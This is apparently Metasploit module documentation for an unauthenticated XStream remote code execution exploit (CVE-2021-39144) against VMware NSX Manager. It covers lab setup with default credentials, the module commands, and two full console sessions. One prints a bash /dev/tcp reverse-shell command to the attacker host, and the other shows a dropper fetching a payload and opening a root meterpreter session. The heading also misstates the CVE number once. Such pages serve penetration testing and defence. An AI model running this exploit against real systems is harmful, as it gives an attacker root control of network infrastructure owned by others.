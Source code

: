 ## Vulnerable Application

VMware Cloud Foundation contains a remote code execution vulnerability via XStream open source library [CVE-2022-39144](https://nvd.nist.gov/vuln/detail/CVE-2021-39144).
VMware has evaluated the severity of this issue to be in the [Critical severity range](https://www.vmware.com/support/policies/security_response.html) with a maximum CVSSv3 base score of [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).
Due to an unauthenticated endpoint that leverages XStream for input serialization in VMware Cloud Foundation (NSX-V),
a malicious actor can get remote code execution in the context of `root` on the appliance.

VMware Cloud Foundation `3.x` and more specific NSX Manager Data Center for vSphere up to and including version `6.4.13`
are vulnerable to Remote Command Injection.

This module has been tested against VMware NSX Manager (NSX-V) with the specifications listed below:

* VMware NSX Manager
* Version `6.4.13`
* Version `6.4.4`

## Verification Steps

Follow these instructions to install a vulnerable VMware NSX Manager on VirtualBox.
* Go to [Download VMware NSX for vSphere 6.4.13](https://customerconnect.vmware.com/en/downloads/details?downloadGroup=NSXV_6413&productId=417&rPId=96480)
* Note: You need to be a customer with valid VMware subscriptions
* Download the ova file `VMware-NSX-Manager-6.4.13-19307994.ova`
* Open VirtualBox and import the ova file
* After successful import, start the VM and you have a VMware NSX Manager running which is accessible using url `https://<nsx-manager-ip>`
* Credentials to login: user: `admin`, password: `default`
* Use the module and options below to test the vulnerability...

1. `use use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### VMware NSX Manager bash reverse shell

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Unix (In-Memory) with bash -c '0<&44-;exec 44<>/dev/tcp/192.168.100.7/4444;sh <&44 >&44 2>&44'
[*] Command shell session 14 opened (192.168.100.7:4444 -> 192.168.100.5:42512) at 2022-11-05 10:33:37 +0000

pwd
/usr/lib/tanuki/bin
whoami
root
exit
[*] 192.168.100.5 - Command shell session 14 closed.

```

### VMware NSX Manager meterpreter session

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/G5xrKmpiufcQdCt
[*] Client 192.168.100.5 (curl/7.81.0) requested /G5xrKmpiufcQdCt
[*] Sending payload to 192.168.100.5 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Sending stage (3045348 bytes) to 192.168.100.5
[*] Meterpreter session 13 opened (192.168.100.7:4444 -> 192.168.100.5:42384) at 2022-11-05 10:29:30 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.100.5
OS           : NSX Manager 6.4.13 (Linux 4.9.297)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Limitations
The vulnerability check is limited in detecting that VMWare NSX Manager (NSX-V) is running without obtaining the version information.
However all VMware NSX Manager versions up to `6.4.13` are vulnerable, except for `6.4.14`, so most detected targets are likely
to be vulnerable.
